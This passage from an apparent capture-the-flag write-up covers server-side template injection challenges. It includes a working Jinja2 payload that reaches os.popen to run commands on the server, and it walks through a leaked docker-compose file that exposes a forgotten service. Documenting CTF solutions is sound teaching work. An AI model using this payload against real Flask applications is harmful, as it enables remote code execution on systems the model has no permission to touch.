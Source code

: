 ```getFlag``` is an elf file.

## Solution

Run ```getFlag```:
```py
{{request.application.__globals__.__builtins__.__import__('os').popen('./getFlag').read()}}
```

flag: ```BFS{Oh_My..._I_Can_RCE_PyTh0N!!}```

# ssti4

## What it is

Same as sst3.

The flag doesn't seem to be in any of the server files.

```dalek.py``` launches the web server and kills children processes every 10 secondes, preventing backdoors.

There is a ```docker-compose.yml``` file:
```yml
version: "3.3"

# FIXME: Don't forget to place this file inside .dockerignore ! we don't want anyone looking at this

services:
  ssti4:
    build: "./Challenges/SSTI/ssti4"
    restart: always
    networks:
      ssti4:

  # TODO: This is old don't forget to stop the server in the next version !
  # toto8042:
  #   build: "./Challenges/SSTI/ssti4/toto8042"
  #   restart: always
  #   port:
  #     - ":" WARNING: The port was still open, asked Sysadmin to remove it last month....
  #   networks:
  #     ssti4:'
```

It references a toto8042 service that shouldn't be up but still is.

```yml
#   port:
  #     - ":"
```
This tells us that all ports are forwarded.

ssti4 and toto8042 are on the same network (https://docs.docker.com/compose/networking/#specify-custom-networks).
